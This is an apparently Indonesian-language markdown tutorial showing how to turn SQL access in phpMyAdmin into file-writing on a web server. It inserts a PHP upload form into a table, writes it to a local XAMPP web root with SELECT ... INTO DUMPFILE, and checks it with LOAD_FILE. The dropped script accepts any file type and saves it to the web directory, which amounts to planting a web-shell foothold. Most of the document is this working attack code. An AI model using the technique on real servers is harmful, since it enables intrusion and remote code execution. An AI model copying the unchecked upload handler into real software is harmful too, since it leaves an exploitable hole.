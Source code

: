# Execute CLI Command

Pada halaman ini saya akan mencoba Upload File dari PHPMyAdmin

## Buat table baru
```sql
CREATE TABLE `test`.`test_content` ( `id` INT NOT NULL AUTO_INCREMENT , `name` VARCHAR(50) NOT NULL , `content` TEXT NOT NULL , PRIMARY KEY (`id`)) ENGINE = InnoDB;
```

## Insert Data Baru
```sql
INSERT INTO `test_content` (`id`, `name`, `content`) VALUES (NULL, 'upload.php', '<!DOCTYPE html>
<html>
<body>

<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>

<?php

if(isset($_POST["submit"])) {
	$target_dir = getcwd()."/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	$uploadOk = 1;
	$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));

	// Check if file already exists
	if (file_exists($target_file)) {
		echo "Sorry, file already exists.";
		$uploadOk = 0;
	}
	// Check file size
	if ($_FILES["fileToUpload"]["size"] > 500000) {
		echo "Sorry, your file is too large.";
		$uploadOk = 0;
	}

	// Check if $uploadOk is set to 0 by an error
	if ($uploadOk == 0) {
		echo "Sorry, your file was not uploaded.";
	// if everything is ok, try to upload file
	} else {
		if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
			echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded.";
		} else {
			echo "Sorry, there was an error uploading your file.";
		}
	}
}

?>

</body>
</html>');
```

## Membuat File di Disk
Jalankan query di bawah untuk membuat file `upload.php`
```sql
SELECT content FROM `test_content` WHERE 1 INTO DUMPFILE "D:/xampp2/htdocs/test/upload.php"
```
Untuk cek apakah file sudah terbentuk, jalankan perintah
```sql
SELECT LOAD_FILE('D:/xampp2/htdocs/test/upload.php') AS file_exist
```
